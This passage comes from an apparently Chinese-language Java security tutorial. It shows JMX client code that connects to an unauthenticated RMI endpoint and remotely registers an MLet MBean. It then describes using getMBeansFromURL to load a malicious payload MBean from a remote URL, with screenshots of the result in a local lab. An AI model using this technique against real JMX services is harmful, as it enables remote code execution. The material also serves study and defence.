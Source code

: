 ```
        JMXConnectorServer jmxConnectorServer = JMXConnectorServerFactory.newJMXConnectorServer(jmxServiceURL, null, mBeanServer);
        jmxConnectorServer.start();
        System.out.println("JMXConnectorServer is running");
    }

}
```

本地我们可以通过MBeanServer.RegisterMBean注册MBean

远端我们可以通过MBeanServerConnection.createMBean注册MBean

客户端代码

```
package MBean;

import com.sun.jmx.interceptor.DefaultMBeanServerInterceptor;

import javax.management.MBeanServerConnection;
import javax.management.remote.JMXConnector;
import javax.management.remote.JMXConnectorFactory;
import javax.management.remote.JMXServiceURL;

public class client {
    public static void main(String[] args) throws Exception{
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:2333/jmxrmi");
        JMXConnector jmxConnector = JMXConnectorFactory.connect(jmxServiceURL,null);
        MBeanServerConnection mBeanServerConnection = jmxConnector.getMBeanServerConnection();
        mBeanServerConnection.createMBean("javax.management.loading.MLet",null);
    }
}
```

这样我们可以去注册一个MLet这样一个MBean，我们之前说过，MLet中存在一个getMBeansFromURL可以来远程加载MBean

jconsole连接的效果

![image-20221121123618697](images/6.png)

运行客户端后

![image-20221121123706360](images/7.png)

然后去执行getMBeanFromURL

![image-20221121123804647](images/8.png)

可以看到，恶意的Payload这个MBean已经注册

![image-20221121123836210](images/9.png)

